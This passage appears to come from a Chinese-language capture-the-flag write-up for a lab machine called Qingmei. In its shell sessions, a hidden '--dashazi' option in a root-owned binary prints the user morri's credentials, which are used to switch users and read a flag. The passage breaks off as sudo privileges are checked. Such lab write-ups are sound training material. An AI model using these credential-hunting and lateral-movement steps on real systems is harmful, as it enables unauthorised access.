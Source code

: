 *   **检查 `/opt` 目录：**
    ```bash
    guest@Qingmei:~$ cd /opt/
    guest@Qingmei:/opt$ ls -al
    total 32
    drwxr-xr-x  2 root root  4096 May 18 10:12 .
    drwxr-xr-x 18 root root  4096 Mar 18 20:37 ..
    -rw-r--r--  1 root root   169 May 18 09:53 banner.txt
    -rwx-----x  1 root root 17024 May 18 10:12 morri_password
    ```
    在 `/opt` 目录下发现一个名为 `morri_password` 的可执行文件，其所有者为 `root`，但 `others` 用户组具有执行权限。
    尝试执行该程序并查看帮助信息：
    ```bash
    guest@Qingmei:/opt$ ./morri_password
    You need to input strings of 'A's with correct lengths (10-50 characters).
    You'll be asked to do this 10 times.
    
    Try 1/10: Please input exactly 26 'A's: ^C
    guest@Qingmei:/opt$ ./morri_password -h
    Usage: ./program [options]
    Options:
      -h          Show this help message
      --dashazi   Directly output credentials
    
    Normal operation:
      The program will ask you to input strings of 'A's with random lengths (10-50)
      You need to correctly input 10 times to get the credentials
    ```
    发现 `--dashazi` 选项可以直接输出凭据。

*   **获取 `morri` 用户凭据：**
    使用 `--dashazi` 选项执行程序。
    ```bash
    guest@Qingmei:/opt$ ./morri_password --dashazi
    user:morri pass:morri
    ```
    成功获取用户 `morri` 的凭据为 `morri:morri`。

*   **切换至 `morri` 用户并获取 `user.txt`：**
    ```bash
    guest@Qingmei:/opt$ su morri
    Password: morri
    morri@Qingmei:/opt$ id
    uid=1001(morri) gid=1001(morri) groups=1001(morri)
    morri@Qingmei:/opt$ cd ~
    morri@Qingmei:~$ cat user.txt
    flag{user-edf050af-33ef-11f0-b3f0-000c2955ba04}
    ```
    成功切换到 `morri` 用户并读取 `user.txt`，获取第一个 flag。

#### 3.2 权限提升：morri -> root

*   **Sudo 权限检查 (morri)：**
    检查 `morri` 用户的 `sudo` 权限。
    ```bash
    morri@Qingmei:~$ sudo -l
    Matching Defaults entries for morri on Qingmei:
        env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin
    